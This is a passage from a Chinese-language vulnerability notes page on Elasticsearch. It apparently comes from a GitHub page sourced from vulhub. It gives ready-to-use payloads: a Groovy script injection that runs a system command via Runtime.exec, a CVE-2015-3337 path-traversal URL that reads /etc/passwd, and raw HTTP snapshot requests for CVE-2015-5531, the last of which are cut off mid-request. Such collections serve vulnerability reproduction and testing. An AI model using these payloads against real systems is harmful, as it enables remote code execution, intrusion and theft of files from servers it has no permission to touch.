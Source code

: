     {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
    ```

**CVE-2015-3337 目录穿越漏洞**

- 影响版本

    - 1.4.5 以下/1.5.2 以下

- 简述

    在安装了具有“site”功能的插件以后,插件目录使用../即可向上跳转,导致目录穿越漏洞,可读取任意文件。没有安装任意插件的 elasticsearch 不受影响。

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/

    `http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd` (不要在浏览器访问)

    `http://your-ip:9200/_plugin/head/`

**CVE-2015-5531**

- 简述

    elasticsearch 1.5.1 及以前,无需任何配置即可触发该漏洞。之后的新版,配置文件 elasticsearch.yml 中必须存在 path.repo,该配置值为一个目录,且该目录必须可写,等于限制了备份仓库的根位置。不配置该值,默认不启动这个功能。

- 影响版本

    - 1.6.1 以下

- 文章
    - [Elasticsearch目录遍历漏洞 (CVE-2015-5531) 复现与分析 (附PoC) ](https://www.freebuf.com/vuls/99942.html)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/

    新建一个仓库
    ```
    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test"
        }
    }
    ```

    创建一个快照
    ```
    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

